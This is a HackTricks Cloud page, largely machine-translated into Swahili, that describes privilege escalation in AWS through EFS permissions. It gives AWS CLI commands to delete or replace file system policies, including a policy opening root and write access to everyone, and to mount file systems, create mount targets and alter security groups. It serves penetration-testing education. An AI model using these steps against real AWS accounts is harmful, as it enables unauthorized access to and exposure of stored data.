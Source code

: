 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

More **info about EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Kumbuka kwamba ili kuunganisha EFS unahitaji kuwa katika subnetwork ambapo EFS imewekwa wazi na kuwa na ufikiaji kwake (vikundi vya usalama). Ikiwa hii inatokea, kwa kawaida, utaweza kuunganisha kila wakati, hata hivyo, ikiwa inprotected na sera za IAM unahitaji kuwa na ruhusa za ziada zilizotajwa hapa ili kuweza kuzipata.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Kwa ruhusa yoyote kati ya hizo mshambuliaji anaweza **kubadilisha sera ya mfumo wa faili** ili **kukupa ufikiaji** kwake, au tu **kuifuta** ili **ufikiaji wa kawaida** upatikane.

Ili kufuta sera:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Ili kubadilisha:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Kwa ruhusa hii mshambuliaji ataweza **kuunganisha EFS**. Ikiwa ruhusa ya kuandika haitolewi kwa default kwa kila mtu anayeweza kuunganisha EFS, atakuwa na **ufikiaji wa kusoma tu**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
The extra permissions `elasticfilesystem:ClientRootAccess` and `elasticfilesystem:ClientWrite` can be used to **write** inside the filesystem after it's mounted and to **access** that file system **as root**.

**Madhara Yanayoweza Kutokea:** Indirect privesc kwa kutafuta taarifa nyeti katika mfumo wa faili.

### `elasticfilesystem:CreateMountTarget`

Ikiwa wewe ni mshambuliaji yuko ndani ya **subnetwork** ambapo **hakuna mount target** ya EFS inapatikana. Anaweza tu **kuunda moja katika subnet yake** kwa ruhusa hii:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Madhara Yanayoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutafuta taarifa nyeti katika mfumo wa faili.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Katika hali ambapo mshambuliaji anapata kwamba EFS ina lengo la kuunganisha katika mtandao wake wa ndani lakini **hakuna kundi la usalama linaloruhusu trafiki**, anaweza tu **kubadilisha hilo kwa kubadilisha makundi ya usalama yaliyochaguliwa:**
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Madhara Yanayoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutafuta taarifa nyeti katika mfumo wa faili.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

